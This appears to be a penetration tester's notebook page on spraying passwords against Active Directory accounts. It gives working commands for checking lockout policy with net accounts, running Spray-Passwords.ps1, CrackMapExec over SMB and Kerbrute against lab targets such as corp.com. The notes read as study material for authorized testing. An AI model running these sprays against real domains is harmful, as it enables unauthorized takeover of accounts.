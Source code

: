 public:: true

- In case you already have access to a domain user, use it to grab a list of [valid](((655b6438-8ebc-46f6-a345-059d33f3ad83))) domain [users](((655b6438-2cff-4396-b2d2-a9cf0077d0bb))). This will be very helpful with the following commands.
- Before brute-forcing any domain account we always better check what the *lockout policy* looks like.
  id:: 655c7f48-d435-469c-ac3d-7bb4a56c888e
	- From a shell of a domain user we can use `net` as follow:
	  ```cmd
	  net accounts
	  ```
	  ```cmd
	  C:\Users\jeff> net accounts
	  Force user logoff how long after time expires?:       Never
	  Minimum password age (days):                          1
	  Maximum password age (days):                          42
	  Minimum password length:                              7
	  Length of password history maintained:                24
	  Lockout threshold:                                    5
	  Lockout duration (minutes):                           30
	  Lockout observation window (minutes):                 30
	  Computer role:                                        WORKSTATION
	  The command completed successfully.
	  ```
	- #+BEGIN_CAUTION
	  Too many failed logins may **block the account** for further attacks and possibly **alert system administrators**.
	  #+END_CAUTION
- Password Spray
	- [`Spray-Passwords.ps1`](https://github.com/michele-dedonno/MDD-scripts/blob/master/Spray-Passwords.ps1)
	  logseq.order-list-type:: number
	  It automatically identifies domain users and sprays a password against them according to the [lockout policy](((655c7f48-d435-469c-ac3d-7bb4a56c888e))).
		- This script uses the [`DirectoryEntry`](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.directoryentry?view=dotnet-plat-ext-6.0) constructor to brute-force accounts
		  ```powershell
		  New-Object System.DirectoryServices.DirectoryEntry($CurrentDomain, $username, $password)
		  ```
		- Usage examples
			- `.\Spray-Passwords.ps1 -Pass 'Summer2016'`
			- `.\Spray-Passwords.ps1 -Pass 'Summer2016,Password123' -Admins`
			- `.\Spray-Passwords.ps1 -File .\passwords.txt -Verbose`
			- `.\Spray-Passwords.ps1 -Url 'https://raw.githubusercontent.com/improsec/Get-bADpasswords/master/Accessible/PasswordLists/weak-passwords-common.txt' -Verbose`
	- [[CrackMapExec]]
	  logseq.order-list-type:: number
		- Iterate through a list of users and try to authenticate against a specified SMB server using a fixed password.
		  ```powershell
		  crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
		  ```
		- #+BEGIN_WARNING
		  Brute-forcing accounts via the SMB protocol have some drawbacks.
		  #+END_WARNING
			- For every authentication attempt a full SMB connection has to be set up and then terminated.
			  logseq.order-list-type:: number
			- It is very noisy due to the generated network traffic.
			  logseq.order-list-type:: number
			- It is also quite slow in comparison to other techniques.
			  logseq.order-list-type:: number
	- [[Kerbrute]]
	  logseq.order-list-type:: number
		- {{embed ((655cbd1e-9c3e-4f5c-af2e-247535fac289))}}
		- Iterate through a list of users and file [AS-REQ](((655b1c01-e1e1-4be0-b245-ff8c9482df38)))s to the domain controller using a fixed password.
		  ```bash
		  kerbrute_linux_amd64 passwordspray -d corp.com .\usernames.txt "Nexus123!"
		  ```